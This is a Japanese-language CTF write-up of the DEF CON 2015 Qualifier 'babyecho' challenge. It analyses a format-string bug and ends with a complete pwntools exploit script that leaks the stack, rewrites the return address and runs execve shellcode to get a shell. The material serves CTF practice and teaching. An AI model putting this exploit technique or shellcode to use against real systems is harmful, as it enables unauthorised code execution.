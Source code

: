 ```yaml
---
layout: post
alias: "/blog/2016/01/08/defcon-qualifier-ctf-2015-babyecho/"
date: 2016-01-08T02:18:11+09:00
tags: [ "ctf", "pwn", "writeup", "format-string-attack", "shellcode" ]
---
```


# DEF CON Qualifier 2015: babyecho

## [Baby's First 1: babyecho](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/babyecho)

>   babyecho\_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232  
>   [Download]()

format文字列攻撃の脆弱性のあるバイナリ。

``` sh
$ ./babyecho
Reading 13 bytes
%p
0xd
Reading 13 bytes
%10d%hhn
zsh: segmentation fault (core dumped)  ./babyecho
```

全て読むにはつらい大きなバイナリであるが、セキュリティ機構はほとんど存在していない。
libcを静的にlinkしているようである。
`%n`を入力すると`_n`が返ってくることなどから分かるが、libcの関数そのものではなく多少手が入れられている。

``` sh
$ ll babyecho
-rwxr-x--x 1 user user 664936 Jan  7 23:50 babyecho
$ ldd babyecho
    not a dynamic executable
$ checksec --file babyecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   babyecho
```

中を覗くと、main関数は以下のようなものと考えてよいと分かる。

``` c
int main(void) {
    char buf[1024];
    int flag = 0;
    char *p = buf;
    int len = 13;
    while (flag == 0) {
        assert (len <= 1024);
        printf("Reading %d bytes\n", len);
        fgets(stdin, buf, len);
        printf(buf);
        putchar('\n');
    }
    return 0;
}
```

攻撃の手順は以下のようになる。

-   `p`を表示し`esp`を得る。
-   `len`を書き換え長い文字列を送り込めるようにする。
-   `buf`にshellcodeを載せ、`main`の戻りアドレスをshellcodeへのポインタで書き換え、`flag`を書き換える。

これを実行するコードは以下のようになる。

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
p = remote('localhost', 8022)
# p = process('./babyecho')

# ebp of main
# ret from printf
# buf        # esp
# 0xd        # esp + 0x4, $1
# 0xa        # esp + 0x8, $2
# 0x0        # esp + 0xc, $3
# 0xd        # esp + 0x10, $4, len of buf
# 0xffbd510c # esp + 0x14, $5, ptr to buf
# 0x0        # esp + 0x18, $6, break flag
# buf        # esp + 0x1c, $7
# ret        # esp + 0x42c, ret addr from main

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline('%5$p')
buf = int(p.recvline(keepends=False), 16)
esp = buf - 0x1c

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline(p32(esp + 0x10) + '%99d' + '%7$n')

p.recvline_regex('.*Reading \d+ bytes\n') # 103 bytes
p.sendline(p32(esp + 0x10) + '%999d' + '%7$n')

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
p.recvline_regex('.*Reading \d+ bytes\n') # 1003 bytes

payload = ''
payload += p32(esp + 0x18) # $7
payload += p32(esp + 0x42c) # $8
payload += p32(esp + 0x42c + 1) # $9
payload += p32(esp + 0x42c + 2) # $10
payload += p32(esp + 0x42c + 3) # $11
ptr = esp + 0x1c + len(payload)
payload += shellcode
initial_len = len(payload)
payload += '%7$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[0]) -      initial_len) % 0x100 + 0x100)) + '%8$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[1]) - ord(p32(ptr)[0])) % 0x100 + 0x100)) + '%9$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[2]) - ord(p32(ptr)[1])) % 0x100 + 0x100)) + '%10$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[3]) - ord(p32(ptr)[2])) % 0x100 + 0x100)) + '%11$hhn'
p.sendline(payload)

p.sendline('ls')
p.interactive()
```
